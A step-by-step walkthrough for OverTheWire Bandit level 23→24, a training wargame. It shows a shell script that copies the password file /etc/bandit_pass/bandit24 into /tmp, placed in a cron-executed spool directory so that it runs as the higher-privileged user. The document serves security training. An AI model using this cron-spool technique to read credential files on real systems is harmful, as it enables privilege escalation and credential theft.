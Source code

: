 # 🏴 Bandit Level 23 → Level 24 – Using Temporary Directory and Cron Job

---

## 🎯 Level Goal

Write a shell script that will be automatically executed by a cron job and extract the password for `bandit24` to a temporary file.

---

## 🪜 Step-by-Step Instructions

---

### 🔹 Step 1: Create a temporary working directory

```bash
cd /tmp
mkdir bandit_hack
cd bandit_hack
```

---

### 🔹 Step 2: Write the shell script

Create the script file:

```bash
nano myscript.sh
```

📄 Script content:

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/password_by_bandit23.txt
```

✅ **Note:**  
You do **not need to manually create the file `/tmp/password_by_bandit23.txt`** beforehand.  
The `cat` command will automatically **create and write to the file** when the script is executed.

Save with `Ctrl + O`, press `Enter`, then exit with `Ctrl + X`.

---

### 🔹 Step 3: Make the script executable

```bash
chmod +x myscript.sh
```

🛠 **Explanation:**  
The `+x` flag grants **execution permission** to the file, allowing the system to run it as a program or script.  
Without `+x`, the script cannot be executed, even if it has valid code.

---

### 🔹 Step 4: Copy the script to the cron-monitored folder

```bash
cp myscript.sh /var/spool/bandit24/foo/
```

✅ The cron job running under `bandit24` will scan the `/var/spool/bandit24/foo/` folder and execute any valid scripts placed there.

---

### 🔹 Step 5: Wait for the cron job to run (approx. 1 minute)

After about 1 minute, check for the output:

```bash
cat /tmp/password_by_bandit23.txt
```

✅ If successful, this file will contain the password for the next level: `bandit24`.

---

## ⚠️ Important Notes

- If you **cannot write to `/var/spool/bandit24/foo/`**, check the folder's permissions:

```bash
ls -ld /var/spool/bandit24/foo
```

- If the directory is not writable or has been used by someone else, you may:
  - **Wait for the OverTheWire server to reset** (it typically resets every few hours).
  - **Prepare your script in advance** in another location and **quickly copy it in** when write access becomes available.

---

## 🧭 Logging into the next level

Once you’ve obtained the password:

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

---

✅ That’s it! You’ve successfully completed **Bandit Level 23 → Level 24** using a cron-executed shell script.
